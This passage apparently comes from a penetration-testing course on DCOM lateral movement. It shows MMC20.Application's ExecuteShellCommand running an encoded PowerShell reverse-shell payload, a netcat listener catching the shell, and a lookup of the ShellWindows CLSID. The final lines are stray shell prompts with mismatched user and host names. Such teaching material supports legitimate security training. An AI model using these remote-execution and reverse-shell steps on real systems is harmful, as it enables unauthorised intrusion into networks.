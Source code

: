 ```code
View.ExecuteShellCommand( _
  ByVal Command As String, _
  ByVal Directory As String, _
  ByVal Parameters As String, _
  ByVal WindowState As String _
)

```

In order to use it, we must complete all parameters. The first is the `Command` to execute, which will be `powershell.exe`, next we set the `Directory` to `$null`, 3rd we add PowerShell's parameters with our reverse shell payload, we will use a payload from [https://www.revshells.com](https://www.revshells.com/), and finally we set the [WindowState](https://learn.microsoft.com/en-us/dotnet/api/system.windows.windowstate?view=windowsdesktop-8.0) to `0` so it will execute normally:

```powershell
PS C:\Tools\> $mmc.Document.ActiveView.ExecuteShellCommand("powershell.exe",$null,"-e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==",0)

```

After execution, we would have successfully established a reverse shell connection:

```shell
nc -lnvp 8001
listening on [any] 8001 ...
connect to [10.10.14.207] from (UNKNOWN) [10.129.229.245] 58400

PS C:\Windows\system32> whoami
inlanefreight\helen

```

Execution of `mmc.exe` through COM is highly unusual, making it difficult to mask this technique as benign activity and likely to trigger alerts for defenders, but that will depend on the maturity of the organization.

### ShellWindows & ShellBrowserWindow

[ShellWindows](https://learn.microsoft.com/en-us/windows/win32/shell/shellwindows?redirectedfrom=MSDN) and `ShellBrowserWindow` objects in `DCOM` are very similar, they facilitate remote interaction with Windows Explorer instances. `ShellWindows` allows enumeration and control of open windows, enabling operations such as accessing files and executing commands within the Windows shell environment. However, `ShellBrowserWindow` provides specific control over browser windows within Windows Explorer, offering capabilities for managing file operations and executing commands remotely.

Since these objects aren't associated with a `ProgID`, we must employ the `Type.GetTypeFromCLSID` method in .NET along with `Activator.CreateInstance` to create an instance of the object via its `CLSID` on a remote host. We can find the `CLSID` with the following script:

```powershell
PS C:\Tools> Get-ChildItem -Path 'HKLM:\SOFTWARE\Classes\CLSID' | ForEach-Object{Get-ItemProperty -Path $_.PSPath | Where-Object {$_.'(default)' -eq 'ShellWindows'} | Select-Object -ExpandProperty PSChildName}

{9BA05972-F6A8-11CF-A442-00A0C90A8F39}

```


[SRV02]: PS C:\Users\helen\Documents>
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>